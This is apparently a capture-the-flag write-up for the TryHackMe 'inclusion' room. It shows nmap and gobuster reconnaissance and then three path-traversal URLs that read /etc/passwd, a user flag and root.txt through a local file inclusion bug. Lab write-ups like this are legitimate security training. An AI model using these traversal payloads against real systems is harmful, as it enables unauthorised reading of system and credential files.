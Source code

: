 ```yaml
---
title: "THM:inclusion"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/inclusion"
categories: [CTF, THM]
tags: [ctf,nmap,gobuster,dirbuster,lfi,local-file-inclusion]
---
```

# THM:inclusion

URL: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion) [Easy]

## Reconnaissance

Description of the room:

> This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>  
> If you have any kind of feedback please reach out to me on twitter at [0xmzfr](https://twitter.com/0xmzfr)

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Running: `gobuster`

Ran the following:
> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/article              (Status: 500) [Size: 290]
```

*See also: [gobuster.log](gobuster.log)*

## Gaining Access

What we discover is there is only one folder on this server (that is `/article`) and as a `name` argument, it seems to take a file name.

So, we go back, back, back up a few directories to see if we can get the web server to print out the contents of other interesting files on the server.

### STEP 1: Find usernames

> http://10.10.110.200/article?name=../../../../etc/passwd

### STEP 2: Get unprivileged user flag

> http://10.10.110.200/article?name=../../../../home/falconfeast/user.txt

### STEP 3: Get root flag

> http://10.10.110.200/article?name=../../../../root/root.txt

By using this technique, we were able to get a value username (`falconfeast`) and read the `user.txt` file, and also step into the `/root` folder to read the `root.txt` file. The contents of those files were the two flags for this room.

## Maintaining Access

We never got direct access to this box, so no access to maintain.

## Clearing Tracks

We never had direct access. Nothing to do.

## Summary

Completed: [2022-01-19 21:50:56]